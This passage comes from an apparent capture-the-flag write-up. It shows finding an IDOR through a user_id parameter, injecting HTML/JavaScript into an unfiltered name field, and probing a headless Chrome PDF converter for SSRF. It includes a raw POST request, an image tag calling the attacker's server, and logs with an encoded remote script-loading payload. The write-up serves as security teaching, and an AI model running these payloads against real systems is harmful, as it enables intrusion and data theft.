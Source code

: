 Clicking on the `Save user` button makes the application do a POST request in this same endpoint.

```
POST /support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

name=Jobert&user_id=2&_csrf_token=a19b1ddd74e4ab4f5a09de9848a953b570026f70
```

That returns `{"result":"can't update this user"}`. During the recon, this same param was seen in the `/settings` endpoint, so we can try an IDOR using an user_id from another account that we have control to check if we succeed. Doing that proves that we have an IDOR. Moreover, there is no filter in user's name param, thus allowing us to set everything we want, like HTML or JavaScript. 

## SSRF to Headless Chrome Remote Debugging

The last feature in the application is the converter, which allows us to upload an image (PNG or JPG) and save it as a PDF. We can note however that besides the imagem the converter also uses our user's name to create the PDF. Thus, as we can change the name to whatever we want, we can start doing the basics to see if we get a hit: `<img src="http://our_server">`.

```
18.218.90.126 - - [16/Jan/2020:19:10:00 +0000] "GET / HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```

Nice! It is another Headless Chrome! This time let's first see what is the `document.location`:

```
18.218.90.126 - - [16/Jan/2020:19:13:00 +0000] "GET /?cookie=http%3A%2F%2Flocalhost%3A3000%2Fconverter%2Fc280534aabc4dcd875d73733f7752f9a64bc99857e78d87944db3c52c99a5759.jpg%3Fuser_name%3D%253Cscript%2520src%253D%2522https%253A%2F%2Fraw.githack.com%2Fmattboldt%2Ftyped.js%2Fmaster%2Flib%2F..%25252f..%25252f..%25252f..%25252fmyuser%2Fmyrepo%2Fmaster%2Fbla10.js%2522%253E%253C%2Fscript%253E HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```
Cool! Maybe some code injection in the image's name? Or mass assignment again injecting paramenters? Or even Server Side Request Forgery? Let's try some iframe to see if it works...

![IFrame](images/converter_iframe.png)
